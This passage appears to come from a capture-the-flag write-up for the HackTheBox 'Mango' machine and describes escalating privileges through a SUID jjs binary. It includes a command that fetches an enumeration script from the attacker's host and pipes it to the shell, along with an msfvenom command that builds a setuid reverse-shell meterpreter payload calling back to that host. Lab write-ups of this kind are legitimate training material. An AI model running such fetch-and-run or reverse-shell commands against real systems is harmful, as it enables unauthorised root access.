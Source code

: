 ## Privesc using jjs

With [LinEnum.sh](https://github.com/rebootuser/LinEnum) I see there's a SUID file for `jjs`:

```
admin@mango:/home/admin$ curl 10.10.14.11/LinEnum.sh | sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 46108  100 46108    0     0   229k      0 --:--:-- --:--:-- --:--:--  228k
-e 
#########################################################
-e # Local Linux Enumeration & Privilege Escalation Script #
-e #########################################################
-e # www.rebootuser.com
-e # version 0.98
[...]
-e [+] Possibly interesting SUID files:
-rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-e 
```

A quick search on [GTFObins](https://gtfobins.github.io/gtfobins/jjs/) shows that we can execute commands with `jjs`.

I can quickly get the root flag with:

![](/assets/images/htb-writeup-mango/root1.png)

Or get a proper shell by generating a meterpreter shell with the `PrependSetuid` option:

```
root@kali:~/htb/mango# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.14.11 LPORT=4444 PrependSetuid=true
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 146 bytes
Final size of elf file: 266 bytes
Saved as: met
```

![](/assets/images/htb-writeup-mango/root2.png)

